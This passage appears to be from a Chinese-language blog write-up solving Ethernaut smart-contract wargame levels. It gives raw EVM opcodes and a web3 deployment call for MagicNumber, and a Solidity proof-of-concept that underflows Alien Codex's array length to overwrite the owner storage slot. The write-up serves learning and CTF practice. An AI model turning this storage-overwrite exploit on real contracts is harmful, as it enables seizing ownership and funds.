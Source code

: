 用codecopy的话就是这样：

```javascript
Runtime Opcodes
602a   
6080   
52      
6020
6080
f3


Initialization Opcodes
600a
600c
6000
39
600a
6000
f3
```

另外一种return的就不写了，参考上面的文章即可。

```javascript
await web3.eth.sendTransaction({from:player,data:"0x600a600c600039600a6000f3602a60805260206080f3"}, function(err,res){console.log(res)})
await contract.setSolver("0x067Cb3Ec131555289AC6C12cF702f121d080e1E1");
```

学习了一波，感觉对于opcode的理解更深了。

# Alien Codex

Storage的Arbitrary Writing，参考我之前写的文章：
[Storage](https://blog.csdn.net/rfrder/article/details/115706983)
slot0放的是owner和contact，算出可以覆盖的i值，然后覆盖掉就可以了。
POC：

```javascript
//SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.6.0;

interface AlienCodex {

  function make_contact() external ;

  function record(bytes32 _content) external ;

  function retract()  external ;

  function revise(uint i, bytes32 _content) external ;
}

contract Feng {
    AlienCodex constant private target = AlienCodex(0x53c5A404b93e96DA6b913c222b728E8825f987E5);
    bytes32 public payload = 0x0000000000000000000000017D11f36fA2FD9B7A4069650Cd8A2873999263FB8;
    function attack() public {
        target.make_contact();
        target.retract();
        uint i = 2**256 - 1 - uint(keccak256(abi.encodePacked(uint(1)))) +1;
        target.revise(i, payload);
    }
}
```
